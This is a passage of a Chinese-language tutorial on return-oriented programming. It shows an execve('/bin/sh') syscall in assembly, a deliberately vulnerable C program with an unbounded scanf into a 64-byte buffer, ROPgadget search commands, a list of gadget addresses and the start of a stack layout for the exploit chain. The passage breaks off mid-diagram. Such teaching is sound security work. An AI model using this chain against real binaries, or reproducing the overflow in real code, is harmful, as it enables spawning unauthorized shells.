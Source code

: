 条件跳转甚至函数调用都可以用精心构造出的 ***“gadgets链”*** 来模拟。只要找出一些基本的 gadgets ，就可以使用这些 gadgets 来组装出复杂的攻击程序。而只要被攻击程序的代码量有一定的规模，就不难在这个程序的代码段中搜索出足够多的 gadgets （注意目标程序的代码中不需要真正有这样的指令，只需要恰好有这样的指令的机器码，例如如果需要用到跳板指令 pop rax; ret ，只需要目标程序的代码段中含有字节码串 58 C3 就可以了）。

下面以实例来展示一下 ROP 攻击的强大，在这个例子中，将利用 gadgets 组装出程序，执行 exec 系统调用打开一个 shell 终端。

用 exec 系统调用打开一个 shell 终端需要的参数和指令如下：


            mov rax, 0x3b   ; system call number, 0x3b for sys_exec
            mov rdi, PROG   ; char *prog (program path)
            mov rsi, 0      ; char **agcv
            mov rdx, 0      ; char **env
            syscall
    PROG:   DB "/bin/sh", 0

其中 rax 为系统调用编号，rdi 为字符串指针、指向可执行程序的完整路径，rsi 和 rdx 都是字符串指针数组，保存了参数列表和环境变量，在此处可以直接置为 0 。

为了增大被攻击程序的体积，以搜索到尽可能多的 gadgets ，在原来的代码中增加一个 random 函数 ，同时用静态链接的方式重新编译一下 victim.c ：

    $ cat victim.c
    #include <stdio.h>
    #include <stdlib.h>

    int main() {
        char name[64];
        printf("What's your name?");
        scanf("%s", name);
        printf("Hello, %s%ld!\n", name, random());
        return 0;
    }
    $ gcc -o victim victim.c -static

手工搜索目标程序中的 gadgets 显然是不现实的，采用 JonathanSalwan 编写的 ROPgadget 搜索，网址在这里：[https://github.com/JonathanSalwan/ROPgadget](https://github.com/JonathanSalwan/ROPgadget) ，可以使用 pip 安装：

    $ su
    $ apt-get install python-pip
    $ pip install capstone
    $ pip install ropgadget
    $ exit

安装完成后，可以使用下面的命令来搜索 gadgets ：

    $ ROPgadget --binary ./victim --only "pop|ret"

搜索到程序中存在的跳板指令只是第一步。接下来需要挑选并组装 gadgets ，过程非常繁琐、复杂，不再叙述了。总之，经过多次尝试，最后找到了以下 gadgets ：

    0x00000000004003f2 : pop r12 ; ret
    0x00000000004018ed : pop r12 ; pop r13 ; ret
    0x0000000000487318 : mov rdi, rsp ; call r12
    0x0000000000431b3d : pop rax ; ret
    0x00000000004333d9 : pop rdx ; pop rsi ; ret
    0x000000000043d371 : syscall

按下图的方式拼装 gadgets ，图中的 ‘+’ 号旁边的数字 0、1、2、...、13 表示攻击程序执行过程中 rip 和 rsp 的移动顺序。

                   Stack                                          Code
    name-->+--------------------+                           +--------------+0<--rip
           | "\x00"*72          |                           | ret          |
    rsp-->0+--------------------+                           +--------------+
           | 0x00000000004003f2 |-----------------------+   | ...          |
          1+--------------------+                       +-->+--------------+1
           | 0x00000000004018ed |---------------------+     | pop r12      |
        2,5+--------------------+                     |     +--------------+2
           | 0x0000000000487318 |------------------+  |     | ret          |
      3,4,6+--------------------+                  |  |     +--------------+